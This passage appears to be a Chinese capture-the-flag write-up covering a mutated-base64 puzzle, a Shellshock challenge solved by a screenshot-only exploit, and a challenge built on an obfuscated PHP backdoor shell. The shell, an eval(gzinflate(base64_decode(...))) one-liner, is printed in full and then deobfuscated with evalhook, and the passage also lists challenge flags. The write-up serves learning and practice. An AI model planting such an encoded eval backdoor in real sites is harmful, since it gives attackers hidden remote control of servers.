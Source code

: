 然后就是按照他的顺序输出flag了

**NNBNCBNNBNBC**



**加解密20**

给了一个shell文件，提示是后门的密码就是flag

```php

<?php 

eval(gzinflate(base64_decode("pZLdSsNAEIXvBd+hTmOzMXTbFC3UGhtFEANWlLZES5OgvauoIFho2jy7s7PJhMSIF5Kbb2fPzs+Z7O8ZiYAmhLAFS9bQzhUQIboUPECKiUQDMSFMkYZIZt+U5nFkYijB0Kh0KfCcp+5wlh+6YaO2H9VFbW2BNK8U2iJJoiOk9Pek4q/ZBTwG481T4HeD3mC9vH79en67fb+fjScPM38aOMvL6erEn6xePm+uLj7u1i669I9qAucL4ZSDesQWC9WwHlGxkZRpwW9t1ikrDCRwAE87dtvm7EphlRQd3taC6AwpIjJ4A4XFkhcQ81uhbZcw6EN20a67mHPHxX8Qc+YQP7vyvxQJIHNBa9usUBMcck5d1kNqEVmZl9CDkmNNnsLIFV3IKnsVRT4OOCQJdRNq76Pzbw==")));

?>

```

有这种解eval的特别方便的

http://zone.wooyun.org/content/19251



在kali下跑跑

php -d extension=evalhook.so shell.php


![1894415851](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1894415851.png)

这个特殊的字符串就是flag了

**p4n9_z1_zh3n9_j1u_Sh1_J13**

**加解密40**

```base64

NTU2NJC3ODHHYWJIZ3P4ZWY=

```

其实这是一个变异的base64.我们挨个把字母的大小写跑一遍，然后提取可见字符。



![3223716866](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3223716866.png)


然后第二个flag就是正确的。



**系统20**

shellsock的exp打一发

![402964121](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-402964121.png)

